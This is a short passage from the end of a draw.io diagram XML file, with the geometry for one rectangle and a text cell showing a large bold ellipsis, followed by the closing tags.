style="rounded=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="1"><mxGeometry x="-30" y="210" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-113" value="&lt;font size=&quot;1&quot; style=&quot;&quot;&gt;&lt;b style=&quot;font-size: 70px;&quot;&gt;...&lt;/b&gt;&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=15;" vertex="1" parent="1"><mxGeometry x="360" y="1100" width="60" height="30" as="geometry"/></mxCell></root></mxGraphModel></diagram></mxfile>